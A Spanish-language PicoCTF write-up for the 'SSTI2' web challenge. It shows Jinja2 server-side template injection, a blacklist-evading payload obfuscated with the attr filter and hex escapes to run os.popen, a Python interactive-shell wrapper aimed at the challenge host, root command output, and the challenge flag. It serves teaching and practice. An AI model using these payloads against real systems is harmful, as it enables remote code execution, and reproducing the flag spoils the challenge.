


# STTI2 PicoCTF (Intermediate)

## Contexto de la maquina

### Trayectoria STTI2

<figure><figcaption></figcaption></figure>

### Descripción

Este reto de PicoCTF presenta una aplicación web vulnerable a **Server-Side Template Injection (SSTI)** utilizando el motor de plantillas **Jinja2**. El objetivo es identificar la vulnerabilidad, evadir los mecanismos de filtrado implementados por el servidor y ejecutar comandos del sistema para obtener la flag final.

**Objetivo del reto**:

Explotar una vulnerabilidad SSTI para lograr **ejecución remota de comandos** y leer el archivo que contiene la flag.

**Tipo de máquina**

* Web
* Linux
* Vulnerabilidad de inyección en templates (SSTI)

**Habilidades evaluadas**

* Identificación de SSTI en aplicaciones web
* Comprensión de Jinja2 y su modelo de objetos
* Bypass de filtros y blacklists
* Ejecución remota de comandos
* Automatización básica con Python

### Enumeración y análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

## Despliegue del CTF

En la propia pagina buscaremos el `CTF`, dentro veremos un boton llamado `Launch Instance`, una ves desplegado nos aparecera `here` donde se encuentra el `dominio` junto con el puerto asociado al mismo.

El objetivo de estos `CTFs` es encontrar la `flag` final.

## STTI

<figure><figcaption></figcaption></figure>

Al acceder al dominio, se observa un formulario que procesa la entrada del usuario y devuelve el resultado renderizado en la página.

<figure><figcaption></figcaption></figure>

Para comprobar si el backend evalúa expresiones, se introduce una prueba básica de SSTI:

```
{{ 7*7 }}
```

La respuesta devuelta es `49`, lo que confirma que la entrada está siendo interpretada por un motor de plantillas.

Al intentar un payload más avanzado orientado a ejecución de comandos:

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

El servidor responde con el mensaje:

```
Stop trying to break me >:(
```

Esto indica la presencia de una **blacklist** que bloquea atributos y funciones consideradas peligrosas. A partir de pruebas y documentación externa, se identifican los siguientes elementos filtrados:

> Blacklist

```
.
|
_
[]
|join
```

Para evadir estas restricciones, se recurre a técnicas de **ofuscación de atributos** usando secuencias hexadecimales y el filtro `attr`.

La referencia utilizada para estos bypasses fue:

URL = [Info Payloads Ofuscados](https://onsecurity.io/article/server-side-template-injection-with-jinja2/)

Se prueba el siguiente payload ofuscado:

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

Respuesta:

<figure><figcaption></figcaption></figure>

Para facilitar la ejecución de comandos, se adapta el payload funcional dentro de un script en Python que actúa como una **shell interactiva básica**.

> shell.py

```python
#!/usr/bin/env python3

import requests
import re

base_url = "http://shape-facility.picoctf.net:64436/announce"

while True:
    cmd = input("[~] > ")

    data_post = {"content": '{{request|attr("application")|attr("\\x5f\\x5fglobals\\x5f\\x5f")|attr("\\x5f\\x5fgetitem\\x5f\\x5f")("\\x5f\\x5fbuiltins\\x5f\\x5f")|attr("\\x5f\\x5fgeti>

    r = requests.post(base_url, data=data_post)
    response = re.findall(r'align="center">(.*)</h1>', r.text, re.DOTALL)[0]
    print(response)
```

Ejecución del script:

```shell
python3 shell.py
```

Una vez dentro, se verifica el usuario y el contenido del directorio actual:

```
[~] > whoami
root

[~] > ls -la
total 12
drwxr-xr-x 1 root root   25 Jan 24 18:02 .
drwxr-xr-x 1 root root   23 Jan 24 18:02 ..
drwxr-xr-x 2 root root   32 Jan 24 18:02 __pycache__
-rwxr-xr-x 1 root root 1841 May  1  2025 app.py
-rw-r--r-- 1 root root   36 Aug 21 19:36 flag
-rwxr-xr-x 1 root root  268 May  1  2025 requirements.txt
```

Se identifica el archivo `flag` en el mismo directorio y se procede a leerlo:

```
[~] > cat flag
```

Resultado:

```
picoCTF{sst1_f1lt3r_byp4ss_a9824e27}
```

Con esto podremos dar por terminada la maquina.

> flag

```
picoCTF{sst1_f1lt3r_byp4ss_a9824e27}
```
